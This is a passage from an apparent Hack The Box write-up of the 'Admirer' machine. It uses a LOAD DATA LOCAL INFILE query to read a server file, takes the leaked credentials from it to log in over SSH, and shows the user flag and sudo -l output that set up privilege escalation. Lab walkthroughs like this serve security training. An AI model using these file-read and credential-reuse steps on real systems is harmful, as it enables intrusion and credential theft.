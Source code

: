 Looking at `../index.php`, we can see there are new credentials:

```sql
LOAD DATA LOCAL INFILE '../index.php'
INTO TABLE TEMPDB.backup
FIELDS TERMINATED BY "\n"
```

![new creds](/assets/img/htb/machines/linux/easy/admirer/new-pass.png)

- **username**: `waldo`
- **password**: `&<h5b~yK3F#{PaPB&dA}{H>`

Using these credentials we can log in to ssh:

![ssh](/assets/img/htb/machines/linux/easy/admirer/ssh.png)

## User (`waldo`)

```bash
waldo@admirer:~$ cat user.txt 
2cf909ef8117cf88a7793227946a8fff
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
waldo@admirer:~$ 
```
